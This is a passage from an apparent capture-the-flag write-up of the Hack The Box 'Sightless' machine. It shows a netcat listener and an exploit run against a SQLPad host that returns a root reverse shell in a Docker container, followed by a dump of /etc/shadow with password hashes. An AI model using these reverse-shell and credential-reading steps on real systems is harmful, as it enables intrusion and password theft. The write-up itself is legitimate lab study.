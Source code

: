 **Usage**
1. Setup a `Netcat` Listener
```bash
nc -lvnp 1337
```

2. Run the Exploit
```bash
python exploit.py http://sqlpad.sightless.htb 10.10.16.3 1337
```

Running the exploit we get a shell as root but in a `docker container`.
![](../assets/img/HTB/Easy/sightless/sightless4.png)

We have two users in the home directory, though we have root privileges, when we try to access `michael`  the directory seems empty.  
As root we can read the user hashes that are stored in the `/etc/shadow` file
```bash

root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::

```

